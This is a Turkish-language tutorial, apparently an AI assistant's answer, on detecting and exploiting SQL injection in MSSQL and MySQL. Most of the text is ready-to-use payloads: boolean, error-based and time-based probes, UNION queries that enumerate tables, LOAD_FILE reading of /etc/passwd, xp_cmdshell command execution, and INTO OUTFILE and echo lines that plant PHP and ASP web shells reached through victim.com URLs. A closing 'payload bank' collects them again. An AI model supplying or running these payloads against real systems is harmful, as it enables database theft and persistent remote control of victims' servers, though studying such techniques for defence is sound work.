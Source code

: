 ### **SQL Injection: Tespit ve İstismar Rehberi (Manuel Tekniklerle)**

SQL Injection, bir saldırganın kullanıcı girdisi yoluyla bir uygulamanın veritabanı sorgularını manipüle etmesine olanak tanıyan bir zafiyettir. MSSQL ve MySQL veritabanları için tespit, istismar ve çeşitli shell alma yöntemleri aşağıda detaylı olarak açıklanmıştır.

---

## **1. SQL Injection Nedir?**
SQL Injection, genellikle şu amaçlarla kullanılır:
- Hassas verilerin okunması (ör. kullanıcı adları, şifreler).
- Yetkilendirme atlatma.
- Veritabanındaki verilerin değiştirilmesi veya silinmesi.
- Komut yürütme (özellikle MSSQL'de).

---

## **2. SQL Injection Nasıl Tespit Edilir?**
SQL Injection zafiyetini tespit etmek için aşağıdaki yöntemleri kullanabilirsiniz:

### **2.1. Potansiyel Giriş Noktalarını Bulma**
- **URL Parametreleri**: `/product?id=1`
- **Form Alanları**: Arama kutusu, giriş formu.
- **HTTP Header'ları**: `Referer`, `User-Agent`, `Cookie`.

### **2.2. Tespit İçin Kullanılan Payloadlar**
#### **Basit Test Payloadları**
```plaintext
' OR '1'='1
" OR "1"="1
' OR 1=1 --
" OR 1=1 --
```
Eğer bu payloadlar kullanıldığında farklı veya beklenmeyen bir çıktı oluşuyorsa, uygulama SQL Injection'a duyarlıdır.

#### **Hata Tabanlı Payloadlar**
```plaintext
'
" 
') 
") 
'-- 
"-- 
```
Hata mesajında SQL sorgusu veya veritabanı türüyle ilgili bilgi görünüyorsa, zafiyet mevcut olabilir.

#### **Boolean Tabanlı Testler**
```plaintext
1' AND 1=1 --
1' AND 1=2 --
```
- `AND 1=1` ile doğru bir durum kontrol edilir.
- `AND 1=2` ile yanlış bir durum test edilir.
Sonuçlar arasında fark varsa, SQL Injection ihtimali yüksektir.

#### **Time-Based Blind Test**
```plaintext
1' AND SLEEP(5) --
1' AND IF(1=1, SLEEP(5), 0) --
```
Yanıtın gecikmesi, SQL Injection zafiyetini gösterebilir.

---

## **3. MSSQL ve MySQL İçin İstismar Teknikleri**

### **3.1. MSSQL İçin SQL Injection**
#### **3.1.1. Veritabanı Adını ve Versiyonunu Bulma**
- **Veritabanı Adı**:
  ```sql
  1' UNION SELECT DB_NAME() --
  ```
- **Versiyon Bilgisi**:
  ```sql
  1' UNION SELECT @@VERSION --
  ```

#### **3.1.2. Tablo ve Kolon Bilgilerini Keşfetme**
- **Tablo Adlarını Listeleme**:
  ```sql
  1' UNION SELECT table_name FROM information_schema.tables --
  ```
- **Kolon Adlarını Listeleme**:
  ```sql
  1' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --
  ```

#### **3.1.3. Komut Yürütme (xp_cmdshell ile)**
MSSQL'de, `xp_cmdshell` etkinleştirilmişse, komut yürütülebilir:
```sql
1'; EXEC xp_cmdshell 'whoami'; --
```

#### **3.1.4. Dosya Yazma**
Shell yazılımı yüklemek için dosya yazabilirsiniz:
```sql
1'; EXEC xp_cmdshell 'echo ^<%execute request("cmd")%^> > C:\inetpub\wwwroot\shell.asp'; --
```

---

### **3.2. MySQL İçin SQL Injection**
#### **3.2.1. Veritabanı Adını ve Versiyonunu Bulma**
- **Veritabanı Adı**:
  ```sql
  1' UNION SELECT DATABASE() --
  ```
- **Versiyon Bilgisi**:
  ```sql
  1' UNION SELECT @@VERSION --
  ```

#### **3.2.2. Tablo ve Kolon Bilgilerini Keşfetme**
- **Tablo Adlarını Listeleme**:
  ```sql
  1' UNION SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() --
  ```
- **Kolon Adlarını Listeleme**:
  ```sql
  1' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --
  ```

#### **3.2.3. Dosya Okuma (LOAD_FILE ile)**
MySQL'de `LOAD_FILE` fonksiyonunu kullanarak dosyaları okuyabilirsiniz:
```sql
1' UNION SELECT LOAD_FILE('/etc/passwd') --
```

#### **3.2.4. Dosya Yazma (INTO OUTFILE ile)**
Dosya yazmak için `INTO OUTFILE` kullanılabilir:
```sql
1' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php' --
```

---

## **4. Shell Alma ve Dosya Yükleme Teknikleri**
### **4.1. MSSQL'de Shell Alma**
1. **xp_cmdshell ile ASP Shell Yükleme**:
   ```sql
   1'; EXEC xp_cmdshell 'echo ^<%execute request("cmd")%^> > C:\inetpub\wwwroot\shell.asp'; --
   ```
2. Shell'e tarayıcıdan erişim:
   ```plaintext
   http://victim.com/shell.asp?cmd=dir
   ```

### **4.2. MySQL'de Shell Alma**
1. **Dosya Yazma**:
   ```sql
   1' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php' --
   ```
2. Shell'e tarayıcıdan erişim:
   ```plaintext
   http://victim.com/shell.php?cmd=ls
   ```

---

## **5. Genel Payload Bankası**
### **Hata Tabanlı SQL Injection**
```sql
1' AND 1=1 --
1' AND 1=2 --
1' AND SLEEP(5) --
```

### **Birleşim (UNION) Tabanlı SQL Injection**
```sql
1' UNION SELECT NULL, NULL, NULL --
1' UNION SELECT 1, 'test', @@VERSION --
```

### **Tablo ve Kolon Keşfi**
```sql
1' UNION SELECT table_name FROM information_schema.tables --
1' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --
```

### **Komut Yürütme (MSSQL)**
```sql
1'; EXEC xp_cmdshell 'dir'; --
```

### **Dosya Okuma ve Yazma (MySQL)**
```sql
1' UNION SELECT LOAD_FILE('/etc/passwd') --
1' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php' --
```

---

Bu rehberde hem **MSSQL** hem de **MySQL** için SQL Injection tespiti ve istismar teknikleri açıklanmıştır. Ek olarak, shell alma ve dosya yükleme gibi ileri düzey istismar yöntemleri de detaylandırılmıştır. Daha fazla bilgi veya spesifik bir senaryo için yardımcı olabilirim.
